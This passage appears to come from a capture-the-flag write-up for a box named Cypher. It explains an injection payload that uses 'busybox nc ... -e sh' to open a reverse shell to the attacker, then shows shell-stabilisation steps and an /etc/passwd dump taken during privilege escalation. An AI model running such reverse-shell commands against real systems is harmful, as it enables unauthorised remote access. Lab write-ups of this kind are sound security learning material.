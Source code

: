     - `busybox nc IP NC PORT -e sh`: Uses `busybox` (a lightweight Unix toolkit) to run `nc` (netcat), creating a **reverse shell** connecting to the attacker’s machine.
        
    - `#`: Comments out the rest of the URL to avoid syntax errors.
        
#### **3. Commenting Out Trailing Code (`;//`)**

- `//` at the end comments out any remaining parts of the original query (prevents syntax errors).


Once we know how this works, let's continue right onto privesc.


# PRIVILEGE ESCALATION
---


First thing is stabilizing our shell:

1. /usr/bin/script -qc /bin/bash /dev/null
2. CTRL + Z
3. stty raw -echo; fg
4. reset xterm
5. export TERM=xterm
6. export BASH=bash

![[Pasted image 20250313161553.png]]

There we go, we got ourselves a nice stable shell, let's search for other users:

```
neo4j@cypher:/$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
dhcpcd:x:100:65534:DHCP Client Daemon,,,:/usr/lib/dhcpcd:/bin/false
messagebus:x:101:102::/nonexistent:/usr/sbin/nologin
systemd-resolve:x:992:992:systemd Resolver:/:/usr/sbin/nologin
pollinate:x:102:1::/var/cache/pollinate:/bin/false
polkitd:x:991:991:User for polkitd:/:/usr/sbin/nologin
syslog:x:103:104::/nonexistent:/usr/sbin/nologin
uuidd:x:104:105::/run/uuidd:/usr/sbin/nologin
tcpdump:x:105:107::/nonexistent:/usr/sbin/nologin
tss:x:106:108:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:107:109::/var/lib/landscape:/usr/sbin/nologin
fwupd-refresh:x:989:989:Firmware update daemon:/var/lib/fwupd:/usr/sbin/nologin
usbmux:x:108:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:109:65534::/run/sshd:/usr/sbin/nologin
graphasm:x:1000:1000:graphasm:/home/graphasm:/bin/bash
neo4j:x:110:111:neo4j,,,:/var/lib/neo4j:/bin/bash
```